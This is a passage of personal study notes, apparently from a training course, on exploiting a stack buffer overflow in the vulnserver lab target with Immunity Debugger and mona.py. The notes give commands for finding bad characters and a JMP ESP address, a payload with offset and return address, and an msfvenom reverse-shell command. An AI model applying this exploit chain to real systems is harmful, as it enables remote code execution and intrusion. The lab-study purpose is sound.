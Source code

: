 ```
    print ("Error connecting to server")
    sys.exit()
```

**ESP** > Follow the hex dump and look for any charachers out of place (they become the bad characters not to include in shell)

* * *

## FINDING THE RIGHT MODEULE

1.  add **mona.py** to the PyCommands folder on immunity debugger
2.  create subfolder folder **mona**
3.  From Immunity Debugger:  
    `!mona config -set workingfolder C:\Users\Bill\Downloads\vulnserver-master\mona`  
    `!mona bytearray -cpb "\x00"` ( generates badcharacter array)  
    `!mona compare -f C:\Users\Bill\Downloads\vulnserver-master\mona\bytearray.bin -a VALUE_OF_ESP` (when clicking to follow dump)  
    `!mona modules` (look for FALSE FALSE FALSE ...eg they are on file.dll )  
    `!mona jmp -r ESP -m "file.dll"`  
    OR  
    `!mona find -s "\xff\xe4" -m file.dll` (copy Address) eg:  
    Log data, item 11  
    Address=625011AF  
    Message= 0x625011af : "\\xff\\xe4" | {PAGE\_EXECUTE\_READ} \[essfunc.dll\] ASLR: False, Rebase: False, SafeSEH: False, CFG: False, OS: False, v-1.0- (C:\\Users\\Bill\\Downloads\\vulnserver-master\\essfunc.dll), 0x0

4.update **trun\_module.py** with:  
`shellcode = "A" * 2003 + "\xaf\x11\x50\x62"`

5.  From Immunity debugger, click arrow to "*Enter expression to follow*" and enter address (eg 625011af), then *select* and press *F2*, then press play
    
6.  run **trun\_module.py**
    
7.  `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.140.128 LPORT=8888 EXITFUNC=thread -f c -a x86 -b "\x00\x01`" (-b are the badchars)
    
8.  copy the **unsigned\_char\_buff** and add to:  
    `overflow =` ("unsigned\_char\_buff list")  
    `shellcode = "A" * 2002 + "\xaf\x11\x50\x62" + "\x90" * 32 + overflow`
    

&nbsp;

* * *

# BUFFER OVERFLOW #2
READ FIRST: If issue with any of the scripts, try changing values to have "b" (as bytes) before them. eg `payload = "a" * 100` becomes `payload = b"a" * 100`
(check [min 24:00](https://academy.tcm-sec.com/courses/1154399/lectures/24800152))
### Find estimate of how many bytes to cause buffer overflow:
1.  Create **buffer_fuzz.py**
